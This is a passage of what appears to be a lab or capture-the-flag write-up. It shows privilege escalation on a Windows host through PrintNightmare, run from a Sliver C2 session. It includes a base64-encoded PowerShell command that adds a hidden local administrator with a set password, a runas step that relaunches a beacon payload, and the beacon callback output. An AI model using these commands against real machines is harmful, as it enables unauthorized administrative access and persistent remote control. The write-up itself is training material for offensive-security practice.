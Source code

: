 The machine is vulnerable to [PrintNightmare](https://itm4n.github.io/printnightmare-exploitation/) due to a misconfiguration! There are many ways to exploit this, for simplicity I'm going to go with a PoC from this [repo](https://github.com/JohnHammond/CVE-2021-34527). PrintNightmare essentially loads a attacker-controlled DLL as SYSTEM so you could also create your own DLL to load a sliver beacon directly.

However the PoC by John Hammond allows to use a precompiled DLL to add a new administrator user. While this is easy to detect it's a quick way to achieve what we want here. We use `sharpsh` once more to run the PoC and add a new local admin:

[Encoded Command](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=SW52b2tlLU5pZ2h0bWFyZSAtRHJpdmVyTmFtZSAiWGVyb3gzMDEwIiAtTmV3VXNlciAicmVkcHVwcGV0IiAtTmV3UGFzc3dvcmQgIlJlZFB1cHBldDEyMyI)

```terminal
sliver (puppet-mtls) > upload CVE-2021-34527.ps1

sliver (puppet-mtls) > sharpsh -i -s -t 300 -- -u c:\\temp\\CVE-2021-34527.ps1 -e -c SQBuAHYAbwBrAGUALQBOAGkAZwBoAHQAbQBhAHIAZQAgAC0ARAByAGkAdgBlAHIATgBhAG0AZQAgACIAWABlAHIAbwB4ADMAMAAxADAAIgAgAC0ATgBlAHcAVQBzAGUAcgAgACIAcgBlAGQAcAB1AHAAcABlAHQAIgAgAC0ATgBlAHcAUABhAHMAcwB3AG8AcgBkACAAIgBSAGUAZABQAHUAcABwAGUAdAAxADIAMwAiAA==
```

Since we added a local user that is in the administrators group, we can now proceed to use `runas` to switch into its context by running the initial beacon payload once more:

```terminal
sliver (puppet-mtls) > runas -u redpuppet -P "RedPuppet123" -p c:\\programdata\\puppet\\puppet-update.exe

[*] Successfully ran c:\programdata\puppet\puppet-update.exe  on puppet-mtls

[*] Beacon 913973f8 puppet-mtls - 10.10.144.230:51476 (File01) - windows/amd64 - Thu, 17 Oct 2024 14:44:15 CEST
```

This new beacon is however not in an elevated context due to UAC:

```terminal
sliver (puppet-mtls) > sa-whoami

[*] Tasked beacon puppet-mtls (cf6b98ac)

[+] puppet-mtls completed task cf6b98ac

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName		SID
====================== ====================================
FILE01\redpuppet	S-1-5-21-2946821189-2073930159-359736154-1001


GROUP INFORMATION                                 Type                     SID                                          Attributes
================================================= ===================== ============================================= ==================================================
FILE01\None                                       Group                    S-1-5-21-2946821189-2073930159-359736154-513  Mandatory group, Enabled by default, Enabled group,
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114
BUILTIN\Administrators                            Alias                    S-1-5-32-544
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group,
```